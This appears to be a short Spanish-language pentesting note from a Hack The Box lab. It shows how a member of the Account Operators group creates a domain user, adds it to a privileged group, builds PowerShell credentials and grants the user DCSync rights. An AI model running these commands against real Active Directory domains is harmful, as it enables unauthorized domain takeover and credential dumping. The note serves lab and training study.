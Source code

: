 Si obtenemos un usuario que es parte del account operators group, podemos aprovecharlo para crear un usuario y agregarlo a cualquier grupo no protegido que tenga ACLs privilegiados.


    net user porota porota1 /add /domain

Luego 

    net group "grupo" porota /add

Luego creamos credenciales para el usuario

    $SecPassword = ConvertTo-SecureString 'porota1' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('htb\porota', $SecPassword)

Si el grupo al que lo agregamos tiene posibilidades de agregar o modificar los ACLs sobre el dominio, podemos darle a nuestro user permisos de DCSync

    Add-ObjectACL -PrincipalIdentity porota -Credential $Cred -Rights DCSync
